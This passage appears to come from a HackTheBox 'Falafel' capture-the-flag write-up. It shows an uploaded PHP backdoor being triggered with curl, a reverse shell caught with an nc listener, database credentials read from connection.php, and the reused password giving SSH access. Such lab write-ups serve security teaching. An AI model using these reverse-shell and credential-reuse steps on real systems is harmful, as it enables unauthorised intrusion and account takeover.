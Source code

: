 Now doing a curl to will trigger the backdoor and kick back a shell.

```
root@kali:~/Falafel$ curl http://10.10.10.73/uploads/0621-2211_287036c71d5619df/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

```
root@kali:~/Falafel$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from falafel.htb [10.10.10.73] 47088
Linux falafel 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 22:15:33 up 3 days, 17:54,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      Mon04    3days  0.05s  0.04s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ bash -i
www-data@falafel:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@falafel:/$
```

Now that worked fairly terrific! Remember `/connection.php` that where discovered earlier, lets have a look into that one.

```
www-data@falafel:/var/www/html$ cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafel[snip]');
   define('DB_DATABASE', 'falafel');
   [..snip..]
?>
www-data@falafel:/var/www/html$
```

Nice DB Creds. Well maybe they are reusing that password?

```
root@kali:~/Falafel$ ssh moshe@10.10.10.73
moshe@10.10.10.73's password: falafel[snip]
$ bash -i
moshe@falafel:~$ id
uid=1001(moshe) gid=1001(moshe) groups=1001(moshe),4(adm),8(mail),9(news),22(voice),25(floppy),29(audio),44(video),60(games)
moshe@falafel:~$ ls -alsh user.txt
4.0K -r-------- 1 moshe moshe 33 Nov 27  2017 user.txt
moshe@falafel:~$
```

That takes care of the user flag. Time for some further enumeration as user:moshe. Now that we have a ssh shell, lets see whats stored in the DB.


[^1]: [Magic Hashes](https://www.whitehatsec.com/blog/magic-hashes/)  
[^2]: [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)  
[^3]: [Unix Stack Excange](https://unix.stackexchange.com/questions/32795/what-is-the-maximum-allowed-filename-and-folder-size-with-ecryptfs)  
[^4]: [Ubuntu Wikipedia](https://wiki.ubuntu.com/Security/Privileges)  
[^5]: [iraw2png.pl](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/)
